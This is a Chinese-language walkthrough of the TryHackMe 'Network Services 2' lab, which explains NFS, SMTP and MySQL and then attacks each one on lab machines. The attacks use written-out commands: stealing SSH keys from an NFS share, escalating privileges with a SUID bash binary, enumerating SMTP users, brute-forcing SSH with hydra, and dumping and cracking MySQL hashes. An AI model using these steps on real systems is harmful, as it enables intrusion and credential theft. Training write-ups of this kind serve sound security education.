# Network Services 2(网络服务2)

TryHackMe实验房间链接：[https://tryhackme.com/room/networkservices2](https://tryhackme.com/room/networkservices2)

## NFS服务简介

**什么是 NFS？**

NFS代表“Network File System-网络文件系统”，它允许系统通过网络与其他人共享目录和文件；通过使用 NFS，用户和程序几乎可以像访问本地文件一样去访问远程系统上的文件，NFS通过在服务器上挂载全部或部分文件系统来实现这一点；已挂载的部分文件系统可以被 具有分配给每个文件的任何特权的客户端访问。

**NFS 是如何工作的？**

我们不需要详细地了解技术原理就能够有效地利用 NFS，但是如果你对NFS的技术原理感兴趣，可以访问以下文档链接进行了解：

[https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html](https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html)

NFS工作过程：

首先，客户端将请求远程主机把远程目录挂载到本地目录下，这就像挂载物理设备一样；然后挂载服务将使用 RPC(Remote Procedure Call) 连接到相关的挂载守护进程；服务器会检查用户是否有权挂载所请求的任何目录，然后它将返回一个文件句柄，该句柄可以唯一标识服务器上的每个文件和目录。

如果有人想使用 NFS 访问文件，则将对服务器上的 NFSD（NFS 守护程序--the NFS daemon）进行 RPC 调用，此调用会使用以下参数：

* 文件句柄
* 要访问的文件名
* 用户的用户ID
* 用户的组ID

这些参数可用于确定对指定文件的访问权限，从而控制用户权限，即能否对文件进行读写。

**NFS由什么运行？**

通过使用 NFS 协议，你可以在 Windows 计算机和其他非 Windows 计算机（例如 Linux、MacOS 或 UNIX）之间传输文件。

运行Windows Server的计算机可以充当其他非Windows客户端计算机的 NFS 文件服务器，同样，NFS 也可以允许运行 Windows Server 的基于 Windows 的计算机去访问存储在非 Windows NFS 服务器上的文件。

**更多信息：**

以下资源能够更详细地解释 NFS 的技术实现和工作原理：

* [https://www.datto.com/library/what-is-nfs-file-share](https://www.datto.com/library/what-is-nfs-file-share)
* [http://nfs.sourceforge.net/](http://nfs.sourceforge.net/)
* [https://wiki.archlinux.org/index.php/NFS](https://wiki.archlinux.org/index.php/NFS)

### **答题**

阅读本小节内容，并回答以下问题。

<figure><figcaption></figcaption></figure>

## 枚举NFS信息

**什么是枚举？**

枚举可以被定义为“与目标主机建立主动连接以发现目标系统中潜在的攻击向量，并可将发现的信息用于对目标系统的进一步渗透的过程”，枚举是一个非常重要的阶段，因为通过枚举获得的关键信息将有助于我们开展后面的渗透工作。

关于信息枚举的参考文章：[https://resources.infosecinstitute.com/topic/what-is-enumeration/](https://resources.infosecinstitute.com/topic/what-is-enumeration/)

**NFS-Common**

为了对 NFS 服务器和共享进行更高级的枚举，我们需要一些工具，首先要了解的就是能够从本地计算机与任何 NFS 共享进行交互的关键工具：nfs-common。

在任何使用 NFS 的机器上安装这个包都很重要 ，无论是作为NFS客户端还是NFS服务器，它包括以下程序： lockd、statd\*\*、**showmount**、\*\*nfsstat、 gssd、 idmapd和mount.nfs。首先，我们需要关注“showmount”和 “mount.nfs”这两个程序，因为它们有助于我们从 NFS 共享中提取信息。

如果你想了解有关此软件包的更多信息，请阅读以下链接页面：

[https://packages.ubuntu.com/jammy/nfs-common](https://packages.ubuntu.com/jammy/nfs-common)

你可以使用“ sudo apt install nfs-common”命令来安装nfs-common，它是大多数Linux发行版的默认存储库的一部分。

**端口扫描**

枚举的第一步是进行端口扫描，以便尽可能多地找出目标机器的服务、开放端口和操作系统等信息。

**挂载 NFS 共享**

我们的客户端系统需要一个本地目录，以便在导出文件夹中访问主机服务器共享的所有内容，我们可在本地系统的任何位置创建此文件夹，这就是所谓的挂载点。

当我们创建完挂载点后，就可以使用“mount”命令将 NFS 共享连接到本地机器上的挂载点，我们可以使用如下所示的命令（其中/tmp/mount/为挂载点）：

`sudo mount -t nfs IP:share /tmp/mount/ -nolock`

让我们分解一下以上命令：

* sudo 以root权限执行命令
* mount 执行挂载命令
* -t nfs 要挂载的设备类型，指定为NFS
* IP:share NFS 服务器的 IP 地址，以及我们希望挂载的共享名称
* -nolock 不使用 NLM 锁定

### **答题**

阅读本小节内容，并回答以下问题。

tips：在本文相关的Tryhackme实验房间页面 部署目标靶机。

进行端口扫描：`nmap -A -p- -T4 10.10.20.187`

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

> 目标机开放了 7 个端口；NFS服务对应的端口号为 2049 。

列出NFS共享：`/usr/sbin/showmount -e 10.10.20.187`

<figure><figcaption></figcaption></figure>

> 找到的NFS共享名称为：/home

使用`mkdir /tmp/mount`在本地机上创建一个本地目录(挂载点)来挂载共享，使用`mount`将远程主机的NFS共享挂载到本地计算机，然后在本地挂载点查看NFS共享内容：

```bash
mkdir /tmp/mount
mount -t nfs 10.10.20.187:home /tmp/mount/ -nolock
cd /tmp/mount
ls
cd cappucino
ls -a
cd .ssh
ls
```

<figure><figcaption></figcaption></figure>

> NFS共享中的文件夹名称为：cappucino
>
> 保存SSH密钥文件的文件夹是：.ssh文件夹
>
> 最有用的SSH密钥文件是：id\_rsa （ssh私钥文件）

复制NFS共享中的SSH密钥文件到本地机的其他位置（\~/.ssh），查看公钥文件内容（得到用户名）并更改私钥文件的读写权限，最后使用ssh命令进行远程登录：

```bash
cp id_rsa* ~/.ssh
cd ~/.ssh
ls -a
cat id_rsa.pub
chmod 600 id_rsa
ssh -i id_rsa cappucino@10.10.20.187
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

> 成功通过SSH登录到目标机器

<figure><figcaption></figcaption></figure>

## 利用NFS服务

如果你在任何机器上有一个低权限的 shell，并且你发现一台机器有一个 NFS 共享，那么你可以尝试利用NFS服务来提权（这取决于NFS的配置方式）。

**什么是 root\_squash？**

默认情况下，在 NFS 共享上会启用root\_squash设置，这能防止连接到 NFS 共享的任何人对 NFS卷 具有root访问权限；如果目标机器启用了root\_squash设置，那么 root 用户在连接NFS共享时只会被分配一个“nfsnobody”用户身份，该用户将具有最少的本地权限，而这并不是我们想要的；如果目标机器关闭了NFS服务的root\_squash设置，那么此时的目标机就能够允许我们在NFS共享中创建 SUID 位文件，从而就能允许用户以 root 身份访问所连接的目标系统--成功完成提权。

**SUID**

设置了 SUID 位的文件是什么？本质上，SUID意味着我们可以在文件所有者/组的权限下运行一个或多个文件，如果文件所有者/组是root，那么我们就可以在root权限下运行一个或多个文件，所以当我们执行一个设置了SUID位的bash shell文件时，我们就能获得具有对应特权的shell--也就是root shell 。

**利用方法**

这听起来很复杂，但实际上——只要我们熟悉了 SUID 文件的工作原理，就很容易理解具体的利用方法。

我们可以将文件上传到 NFS 共享，并控制这些文件的权限；实际上，我们可以设置我们上传的任何内容的权限，在本例中我们将对bash shell 可执行文件的权限进行设置（将其变更为具有SUID位的文件）；完成权限设置后，我们可以通过 SSH 登录目标机并查看到我们上传至NFS共享中的文件 - 我们只要执行这个设置了SUID位的bash shell可执行文件就能获得一个 root shell。

**所使用的可执行文件**

由于兼容性问题，我们将使用标准的 Ubuntu Server 18.04 bash 可执行文件，这与目标服务器所使用的bash相同，相关文件的链接如下：

[https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash](https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash)

我们可以通过命令行下载bash文件，注意我们需要的是原始脚本文件，请不要下载成 github 页面，我们将在攻击机上使用以下命令：

```bash
wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
```

**完整的利用途径**

下面是我们需要采取的逐步操作，我们可以看到这些操作将如何结合在一起以允许我们最终获得root shell：

NFS Access -> Gain Low Privilege Shell -> Upload Bash Executable to the NFS share -> Set SUID Permissions Through NFS Due To Misconfigured Root Squash -> Login through SSH -> Execute SUID Bit Bash Executable -> ROOT ACCESS

### **答题**

阅读本小节内容，并回答以下问题。

tips：基于上一小节的实验环境进一步操作。

下载bash文件并将其复制到我们上一小节所挂载好的NFS共享的文件夹中；为NFS共享中的bash文件附加权限(将其设置为具有SUID位的可执行文件)；再次使用ssh登录到目标机，找到我们所上传的bash文件并进行执行：

```bash
#wget https://raw.githubusercontent.com/polo-sec/writing/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
#wget下载效果不佳，此处选择手动下载bash
ls -a
chown root bash
chmod +x bash
cp bash /tmp/mount/cappucino/
chmod +s /tmp/mount/cappucino/bash
ssh -i id_rsa cappucino@10.10.20.187

ls -la
./bash -p
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

> 我们使用什么字母配合chmod命令来设置SUID 位：s
>
> 最终的bash文件权限集为：-rwsr-sr-x

使用root shell查看目标文本文件内容：

<figure><figcaption></figcaption></figure>

> root.txt内容为：THM{nfs\_got\_pwned} 。

<figure><figcaption></figcaption></figure>

## SMTP服务简介

**什么是 SMTP？**

SMTP代表“简单邮件传输协议-Simple Mail Transfer Protocol”，它用于处理电子邮件的发送。为了支持电子邮件服务，需要一个协议对，这包括 SMTP协议和 POP/IMAP协议，它们允许用户分别发送传出邮件以及检索传入邮件。

SMTP服务器能够执行以下三个基本功能：

* 验证谁在通过SMTP服务器发送电子邮件。
* 发送传出邮件。
* 如果传出邮件无法送达，它会将邮件发回给发件人。

大多数人在某些第三方电子邮件客户端（例如 Thunderbird）上配置新电子邮件地址时都会遇到 SMTP服务；当你配置新的电子邮件客户端时，你需要先设置SMTP服务器配置才能发送传出电子邮件。

**POP协议和IMAP协议**

POP（邮局协议-Post Office Protocol）和 IMAP（因特网消息访问协议-Internet Message Access Protocol）都属于电子邮件协议，它们负责在邮件客户端和邮件服务器之间传输电子邮件。

这两种协议的主要区别在于 POP 将收件箱从邮件服务器下载到客户端的方法更为简单，IMAP 则会将当前收件箱与服务器上的新邮件同步，再下载新邮件；这意味着你在一台计算机上通过 IMAP 对收件箱所做的更改将持续存在，如果你随后从另一台计算机同步收件箱的话--你就会发现这一点；以上过程由POP/IMAP 服务器负责完成。

**SMTP是如何工作的？**

电子邮件传递的功能与物理邮件传递系统非常相似，用户会提供电子邮件（信件）和一项服务（邮政投递服务），并通过一系列步骤将其投递到收件人的收件箱（邮箱）中，SMTP服务器在此过程中的作用是充当分类办公室，电子邮件（信件）会被拾取并发送到该服务器，然后再定向传送给收件人。

我们可以将电子邮件从你的本地计算机到收件人的旅程映射如下：

<figure><figcaption></figcaption></figure>

1. 邮件用户代理，它可以是你的电子邮件客户端或者其他外部程序，它会连接到你的域中的SMTP服务器，例如 smtp.google.com，这将启动 SMTP 握手，此连接通过 SMTP 端口（通常为25号端口）进行工作，一旦建立并验证了这些连接，SMTP 会话就会启动。
2. 现在可以开始发送邮件了，客户端首先会将 发件人和收件人的电子邮件地址以及电子邮件正文和其他任何附件 一同提交给服务器。
3. SMTP服务器会检查收件人和发件人的域名是否相同。
4. 发件人的SMTP服务器将在转发邮件之前与收件人的 SMTP 服务器建立连接，如果收件人的服务器无法访问或不可用 - 电子邮件将被放入 SMTP 队列。
5. 然后，收件人的SMTP服务器将验证传入的电子邮件，它通过检查域和用户名是否能够被识别来执行此操作，然后服务器会将电子邮件转发到 POP 或 IMAP 服务器，如上图所示。
6. 最后电子邮件将出现在收件人（recipient）的收件箱中。

这是一个非常简化的流程版本，还有很多子协议、通信和细节没有包括在内。如果你想了解有关电子邮件的更多信息，那么可以阅读以下链接内容：

[https://computer.howstuffworks.com/e-mail-messaging/email3.htm](https://computer.howstuffworks.com/e-mail-messaging/email3.htm)

**SMTP由什么运行？**

在 Windows 服务器平台上可以使用SMTP服务器软件运行SMTP服务，许多其他的SMTP软件变体也可在 Linux 上运行并提供SMTP服务。

**更多信息：**

以下链接相关内容更详细地解释了SMTP 的技术实现和工作原理，请根据需要访问：

[https://www.afternerd.com/blog/smtp/](https://www.afternerd.com/blog/smtp/)

### **答题**

阅读本小节内容，并回答以下问题。

<figure><figcaption></figcaption></figure>

## 枚举SMTP信息

**枚举服务器版本信息**

配置不当或易受攻击的邮件服务器通常可以为我们提供进入目标网络的初始立足点，但在发起攻击之前，我们往往希望对目标服务器进行指纹识别，以使我们的目标尽可能准确，我们将使用 Metasploit 中的“`smtp_version`”模块来做到这一点，顾名思义，它将扫描指定范围内的IP地址 并 确定它所发现的任何邮件服务器的版本。

**从SMTP服务中枚举用户**

SMTP是安全测试中比较常见的服务类型，其不安全的配置（未禁用某些命令）会导致用户枚举的问题，主要是通过SMTP命令进行枚举。

SMTP服务有一些可用于用户枚举的内部命令：VRFY（确认有效用户的名称）和 EXPN（显示用户别名的实际地址和电子邮件列表）；使用以上SMTP命令，我们可以初步尝试获取到一份有效用户名单。

我们可以通过 telnet 连接来手动进行枚举操作，也可以使用Metasploit工具进行SMTP枚举，Metasploit提供了一个名为“ `smtp_enum` ”的模块，该模块可用于枚举SMTP信息；使用“ `smtp_enum` ”模块是一件简单的事情，我们需要为其提供一个主机地址或一系列主机地址进行扫描，同时还要提供一个包含要枚举的用户名的字典。

tips：

若目标服务器未禁用某些特殊SMTP命令，则可以利用这些特殊SMTP命令枚举用户，主要是MAIL FROM、RCPT TO、ETRN、VRFY指令。

<figure><figcaption></figcaption></figure>

执行上面的SMTP命令，通过相应的返回码状态可以判断用户是否存在，主要是250状态和550状态。

<figure><figcaption></figcaption></figure>

手动枚举用户名

可以通过Telnet连接目标的SMTP端口，在未禁用上述SMTP命令的服务器上 使用SMTP命令手动枚举用户名，也可以通过shodan等网络安全搜索引擎找到开放SMTP的服务器。

```bash
#VRFY命令
$ telnet 202.38.xxx.xxx 25
Trying 202.38.xxx.xxx...
Connected to 202.38.xxx.xxx.
Escape character is '^]'.
220 mxt.xxx.xxx.cn ESMTP Postfix
VRFY root
250 2.0.0 root
VRFY bin
250 2.0.0 bin
VRFY admin
550 5.1.1 <admin>: Recipient address rejected: User unknown in local recipient table

#MAIL FROM + RCPT TO命令
$ telnet 202.38.xxx.xxx 25
Trying 202.38.xxx.xxx...
Connected to 202.38.xxx.xxx.
Escape character is '^]'.
220 mxt.xxx.xxx.cn ESMTP Postfix
MAIL FROM:root
250 2.1.0 Ok
RCPT TO:root
250 2.1.5 Ok
RCPT TO:bin
250 2.1.5 Ok
RCPT TO:admin
550 5.1.1 <admin>: Recipient address rejected: User unknown in local recipient table

#可以看到上述两种方式均返回root、bin用户存在，admin用户不存在。
```

**安装并更新msf工具框架**

由于我们需要使用 Metasploit中的功能模块，因此我们需要安装 msf工具框架，而且在发起攻击之前，我们需要对该工具进行快速更新以确保我们使用的是最新版本的工具，我们可以通过简单的“sudo apt update”命令(有时还需要附加upgrade参数)来完成工具更新操作。

**备选方案**

一般的枚举技术适用于枚举大多数SMTP服务配置，然而，我们也可以使用其他的非 Metasploit 工具，例如`smtp-user-enum`，它可以在Solaris系统上通过枚举SMTP服务来尝试获取操作系统级别的用户帐户，它主要是通过检查目标服务对 VRFY、EXPN 和 RCPT TO 命令的响应情况来进行枚举。

如果你试图使用非 Metasploit工具来进行SMTP枚举操作（例如为 OSCP 考试做准备），那么这是一个值得牢记的备选方案。

其他的枚举方法还有：使用nmap脚本（smtp-enum-users）进行SMTP枚举......

tips：

smtp-user-enum是kali自带的、使用Perl编写的工具，其原理是通过SMTP命令枚举用户账户。

关于smtp-user-enum工具的参考文档：[https://pentestmonkey.net/tools/user-enumeration/smtp-user-enum](https://pentestmonkey.net/tools/user-enumeration/smtp-user-enum)

工具参数介绍

```bash
Usage: smtp-user-enum.pl [options] ( -u username | -U file-of-usernames ) ( -t host | -T file-of-targets ) 
options:
-m <number>     最大线程数(默认为5)
-M <mode>       进行枚举时使用的SMTP命令：EXPN, VRFY or RCPT (默认使用VRFY)
-u <username>   指定用户名
-f <addr>       指定邮箱地址，只能用在 "RCPT TO" mode (邮箱地址格式: user@example.com)
-D <domaim>     指定电子邮件地址所在域 (默认: none)，用"-D example.com"域可以代替testA@example.com, testB@example.com
-U <file>       指定包含目标SMTP服务用户名的文本文件（以文本文件保存目标SMTP服务可能使用的用户名）
-t <host>       指定运行smtp服务的目标主机
-T <file>       指定运行smtp服务的目标主机列表（以文本文件保存目标主机列表）
-p <port>       设置TCP端口号 (默认为25，即SMTP服务默认相关的端口号)
-d              调试
-t <time>       最大返回时间 (default: 5)
-v              版本 
-h              帮助
```

smtp-user-enum使用示例

```bash
#VRFY方式
$ smtp-user-enum -M VRFY -u root -t 202.38.xxx.xxx
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Target count ............. 1
Username count ........... 1
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Fri Aug 24 09:37:15 2018 #########
202.38.xxx.xxx: root exists
######## Scan completed at Fri Aug 24 09:37:15 2018 #########
1 results.

1 queries in 1 seconds (1.0 queries / sec)

#RCPT方式
$ smtp-user-enum -M RCPT -u bin -t 202.38.xxx.xxx
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... RCPT
Worker Processes ......... 5
Target count ............. 1
Username count ........... 1
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Fri Aug 24 09:37:44 2018 #########
202.38.xxx.xxx: bin exists
######## Scan completed at Fri Aug 24 09:37:44 2018 #########
1 results.

1 queries in 1 seconds (1.0 queries / sec)

#EXPN方式（假设目标服务器禁用了该方法）
$ smtp-user-enum -M EXPN -u bin -t 202.38.xxx.xxx
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... EXPN
Worker Processes ......... 5
Target count ............. 1
Username count ........... 1
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Fri Aug 24 09:37:53 2018 #########
######## Scan completed at Fri Aug 24 09:37:53 2018 #########
0 results.

1 queries in 1 seconds (1.0 queries / sec)

#我们可以看到，在示例中目标服务器的root与bin用户是存在的；最后使用EXPN方式运行工具，但是不返回结果，不一定是由于要测试的账户不存在，还可能是因为目标服务器禁用了该方式（EXPN）对应的命令，这时可以考虑使用手工方式通过返回的状态码进一步确定原因。
```

**SMTP返回码**

<figure><figcaption></figcaption></figure>

**参考**

SMTP用户枚举原理简介及相关工具：[https://www.freebuf.com/articles/web/182746.html](https://www.freebuf.com/articles/web/182746.html)

### **答题**

阅读本小节内容，并回答以下问题。

tips：在本文相关的Tryhackme实验房间页面 部署目标靶机。

进行端口扫描

```
nmap -A -p- -T4 10.10.181.4
```

<figure><figcaption></figcaption></figure>

> 目标ip开放了两个端口，一个是22/SSH服务，一个是25/SMTP服务

<figure><figcaption></figcaption></figure>

启动msf --> 搜索smtp版本检测模块 --> 选择该模块并列出模块相关的参数选项 --> 完成参数设置并最终执行该模块。

```bash
msfconsole
search smtp_version
use 0
options
set RHOSTS 10.10.181.4     #此处ip为目标机ip
run                        #执行该msf模块
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

> 要使用的完整模块名称是：auxiliary/scanner/smtp/smtp\_version
>
> 目标机器使用的系统邮件名称是： polosmtp.home
>
> 目标机器使用的邮件传输代理是： Postfix

<figure><figcaption></figcaption></figure>

关于邮件传输代理：

<figure><figcaption></figcaption></figure>

继续使用msf搜索SMTP用户枚举模块，然后选择使用该模块、查看模块选项、设置模块参数，最后执行该模块：

```bash
search smtp_enum
use 0
options
#set USER_FILE  /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt
set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt  #基于本地攻击机上的seclists实际安装路径
set RHOSTS 10.10.181.4  #此处ip为目标机器ip
run
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

> 要使用的完整模块名称是：auxiliary/scanner/smtp/smtp\_enum
>
> 最终找到一个用户，用户名称为：administrator

<figure><figcaption></figcaption></figure>

## 利用SMTP服务

**我们知道什么？**

通过上一小节的枚举操作，我们已经获取到了一些重要信息：

1.一个有效的用户账户名

2.目标机器上所运行的SMTP服务器的类型和操作系统类型。

我们从上一小节的端口扫描结果中知道，目标机器上还开放了一个22端口对应的服务是SSH服务，所以我们将基于已知信息尝试使用Hydra工具进行暴力破解--以得到已知用户的SSH登录密码。

**Hydra**

Hydra工具在使用时有广泛的可定制性，它允许针对许多不同服务（包括SSH）进行自适应密码攻击。

我们用于暴力破解的命令语法如下所示：

`hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV MACHINE_IP ssh`

让我们分解一下以上命令：

* hydra 启动hydra工具
* -t 16 设置每个目标的并行连接数为16
* -l \[user] 指定用户名
* -P \[path to dictionary] 指定用于暴力破解的密码字典文件的路径
* -vV 将verose模式设置为非常详细，这将显示每次尝试的 login + pass 组合（verose模式--详细输出模式）
* \[machine IP] 目标机器的IP地址
* ssh / protocol 设置要进行暴力破解的相关协议

### **答题**

阅读本小节内容，并回答以下问题。

tips：基于上一小节的实验环境进一步操作。

启动hydra 工具，指定用户名（administrator--由上一小节可知）和字典对目标机器的ssh服务进行暴力破解：

```bash
hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.181.4 ssh
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

> administrator用户的ssh登录密码为：alejandro

使用暴力破解得到的ssh登录密码--进行ssh远程登录并查看目标文本文件内容：

```bash
ssh administrator@10.10.181.4
#密码：alejandro
ls
cat smtp.txt
```

<figure><figcaption></figcaption></figure>

> 目标文本文件的内容为：THM{who\_knew\_email\_servers\_were\_c00l?} 。

<figure><figcaption></figcaption></figure>

## MySQL服务简介

**什么是MySQL？**

在其最简单的定义中，MySQL 是一种基于结构化查询语言 (SQL) 的关系数据库管理系统 (RDBMS)。

* SQL-Structured Query Language
* RDBMS-relational database management system

**数据库(database)**&#x20;

数据库只是一个持久的、有组织的结构化数据集合。

**关系数据库管理系统(RDBMS)**

RDBMS即关系数据库管理系统，指的是：基于关系模型的用于创建和管理数据库的软件或服务。“关系”一词仅表示存储在数据集中的数据被组织为表（tables）的形式，每个表都以某种方式与彼此的“主键-primary key”或其他“键-key”因素相关联。

**SQL（结构化查询语言）**

MYSQL 是最流行的 RDBMS 软件之一，MYSQL基于客户端-服务器（C/S）模型，但是客户端和服务器是如何通信的呢？这主要是通过使用一种语言来实现，即结构化查询语言 (SQL-Structured Query Language)。

许多其他RDBMS 产品，例如 PostgreSQL数据库和 Microsoft SQL Server数据库，都能够使用 SQL，这些数据库的使用都遵循一定的结构化查询语言语法。

**MySQL 是如何工作的？**

作为一种RDBMS软件，MySQL由帮助管理 MySQL 数据库的服务器和实用程序组成。

MySQL服务器可以处理所有数据库指令，如创建、编辑和访问数据，MySQL服务器能接受并管理这些指令请求，并使用 MySQL 协议进行通信；整个过程可以分解为以下几个阶段：

1. MySQL 创建一个用于存储和操作数据的数据库，并且定义每个表的关系。
2. MySQL客户端通过使用特定的SQL语句来发出请求。
3. MySQL服务器使用与请求所对应的信息来响应客户端。

**MySQL由什么运行？**

MySQL可以运行在各种平台上，无论是Linux还是windows，它通常可用作网站的后端数据库，并且是构成 LAMP-Web服务器套件 的重要组成部分，LAMP主要包括：Linux、Apache、MySQL 和 PHP。

**更多信息：**

以下学习资源更详细地解释了 MySQL 的技术实现和工作：

[https://dev.mysql.com/doc/dev/mysql-server/latest/PAGE\_SQL\_EXECUTION.html](https://dev.mysql.com/doc/dev/mysql-server/latest/PAGE_SQL_EXECUTION.html)

[https://www.w3schools.com/php/php\_mysql\_intro.asp](https://www.w3schools.com/php/php_mysql_intro.asp)

### **答题**

阅读本小节内容，并回答以下问题。

<figure><figcaption></figcaption></figure>

## 枚举MySQL信息

**本小节示例场景**

有时候，在枚举目标服务信息的过程中，我们能获得一些初始凭据，然后我们就可以使用这些凭据来进一步枚举和利用目标的MySQL 服务。

在本小节中，将假设存在以下示例场景：我们在枚举Web服务器的子域时找到了一个登录凭据：“root:password”。在尝试使用凭据进行SSH登录失败后，我们接下来将尝试使用上述凭据进行 MySQL 登录。（mysql -h \[IP] -u \[username] -p ）

**环境要求**

我们需要在本地攻击机系统上安装 MySQL 以便我们可以连接到目标机的远程 MySQL 服务器；我们可以使用`sudo apt install default-mysql-client`命令进行安装， 这将会在本地攻击机上安装一个MySQL客户端。

接下来，我们将使用 Metasploit工具，它在 Kali Linux 和 Parrot OS 上都是默认安装的。

**备选方案**

我们使用 Metasploit 进行的枚举操作 也可以通过手动完成或者通过使用其他非 Metasploit 工具完成（例如使用 nmap 的 mysql-enum 脚本）。

* [https://nmap.org/nsedoc/scripts/mysql-enum.html](https://nmap.org/nsedoc/scripts/mysql-enum.html)
* [https://www.exploit-db.com/exploits/23081](https://www.exploit-db.com/exploits/23081)

### **答题**

阅读本小节内容，并回答以下问题。

tips：在本文相关的Tryhackme实验房间页面 部署目标靶机。

在本地攻击机上安装MySQL（客户端）：

```bash
sudo apt install default-mysql-client
```

<figure><figcaption></figcaption></figure>

验证已提供的登录凭据（root：password）是否可连接到目标的MySQL数据库服务：

```bash
#mysql -h [IP] -u [username] -p
mysql -h 10.10.63.194 -u root -p
#输入密码：password
```

<figure><figcaption></figcaption></figure>

针对目标机进行端口扫描：

```
nmap -A -p- -T4 10.10.63.194
```

<figure><figcaption></figcaption></figure>

> 扫描到目标机开放了两个端口：22/ssh、3306/mysql

启动msf，搜索`mysql_sql`模块，然后选择该模块、设置模块参数(已知条件：用户和密码是root/password)，在参数设置完成后执行该模块：

```bash
msfconsole
search mysql_sql
use 0 
options
set PASSWORD password
set RHOSTS 10.10.63.194
set USERNAME root
run
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

> 查询语句 select version() 的返回结果为：5.7.29-0ubuntu0.18.04.1

修改`mysql_sql`模块的默认参数，查看目标MySQL服务器中有多少个数据库（`show databases`）：

```
options
set SQL show databases
run
```

<figure><figcaption></figcaption></figure>

> 目标MySQL服务器中共有四个数据库

<figure><figcaption></figcaption></figure>

## 利用MySQL服务

**我们知道什么？**

在尝试利用目标机的MySQL数据库服务之前，让我们先梳理一下已获取的敏感信息：

1.目标机器上的MySQL服务器相关的有效凭据，已知条件：用户- root 密码-password 。

2.目标机上运行的MySQL服务的版本。

3.目标机上的数据库的数量及名称。

**关键术语**

为了理解我们接下来要进行的操作，我们需要了解一些关键术语。

**Schema**

在 MySQL 中，SCHEMA 与数据库是同义的，我们可以在 MySQL SQL 语法中用关键字“SCHEMA”来代替 DATABASE，例如：可以用 CREATE SCHEMA 来代替 CREATE DATABASE ；理解以上这种等效关系很重要，因为其他一些数据库产品可能和MySQL数据库有所区别，例如，在 Oracle 数据库产品中，SCHEMA仅表示数据库的一部分：由单个用户拥有的表和其他对象。

**哈希**

哈希(hsah)是将可变长度输入转换为固定长度输出的密码算法的产物。

在 MySQL 中，哈希(hash)可以以不同的方式使用，例如将数据索引到哈希表中，哈希表中的每个哈希都有一个唯一的 ID，用作指向原始数据的指针——这将创建一个比原始数据小得多的索引，从而可以更有效地搜索和访问数据库中的值。

在本小节的示例中，我们要从数据库中提取密码哈希形式的数据，密码哈希是一种存储密码的方式--以非明文格式存储密码。

### **答题**

阅读本小节内容，并回答以下问题。

tips：基于上一小节的实验环境进一步操作。

承接上一小节，我们将继续使用msf，先搜索`mysql_schemadump`模块，然后选择该模块、查看模块选项、设置参数、执行该模块，找到最后一个表的名字：

```bash
search mysql_schemadump
use 0
options
set RHOSTS 10.10.63.194
set PASSWORD password
set USERNAME root
run
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

> 此处所选择的模块的完整名称为：auxiliary/scanner/mysql/mysql\_schemadump
>
> 最后一个表的表名为：x$waits\_global\_by\_latency

搜索`mysql_hashdump`模块，选择该模块、查看模块选项、设置选项的参数，最后执行该模块：

```bash
search mysql_hashdump
use 0
options
set PASSWORD password
set RHOSTS 10.10.63.194
set USERNAME root
run
```

<figure><figcaption></figcaption></figure>

> 此处选择的模块的完整名称为：auxiliary/scanner/mysql/mysql\_hashdump
>
> 找到一个名为carl的用户，包含该用户及其密码hash值的完整字符串为：carl:\*EA031893AA21444B170FC2162A56978B8CEECE18

退出msf，我们将上图中的最后一条记录保存到本地机新建的hash.txt文件中：`echo carl:*EA031893AA21444B170FC2162A56978B8CEECE18 > hash.txt`

<figure><figcaption></figcaption></figure>

使用john进行hash破解（此处使用最简单的john语法即可）：`john hash.txt`

<figure><figcaption></figcaption></figure>

> 破解hash得到的密码为：doggie

使用hash破解得到的登录凭据，通过SSH登陆目标机，查看目标文本文件的内容：

```bash
ssh carl@10.10.63.194
#输入密码：doggie
ls
cat MySQL.txt
```

<figure><figcaption></figcaption></figure>

> 目标文本文件的内容为：THM{congratulations\_you\_got\_the\_mySQL\_flag} 。

<figure><figcaption></figcaption></figure>

## 知识拓展

请访问以下参考链接（外网）：

* [https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-exploits.html](https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-exploits.html)
* [https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/](https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/)
